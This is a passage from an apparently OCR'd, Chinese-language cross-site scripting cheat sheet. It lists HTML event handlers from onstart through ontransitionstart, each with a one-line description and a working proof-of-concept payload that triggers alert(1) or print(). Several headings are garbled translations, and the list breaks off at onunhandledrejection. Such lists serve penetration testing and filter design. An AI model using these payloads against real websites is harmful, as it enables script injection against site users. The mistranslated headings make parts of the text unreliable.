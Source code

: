 #### **onstart**

字幕开始时触发

```
<marquee onstart=alert(1)>XSS</marquee>
```

#### **ontimeupdate**

当时间线改变时

```
<audio controls autoplay ontimeupdate=alert(1)><source src="audio.wav" type="audio/wav"></audio>
```

#### **ontoggle**

当详细信息标签展开时触发

```
<details ontoggle=alert(1) open>test</details>
```

#### **on transition 取消**

当 CSS 过渡取消时激发

```
<style>:target {color: red;}</style><xss id=x style="transition:color 10s" ontransitioncancel=print()></xss>
```

#### **ontransitionend**

当 CSS 转换结束时触发

```
<xss id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></xss>
```

#### 背压运行

CSS 转换开始时触发

```
<style>:target {transform: rotate(180deg);}</style><xss id=x style="transition:transform 2s" ontransitionrun=print()></xss>
```

#### **ontransitionstart**

当 CSS 转换开始时被激发

```
<style>:target {color:red;}</style><xss id=x style="transition:color 1s" ontransitionstart=alert(1)></xss>
```

#### **onunhandledrejection**
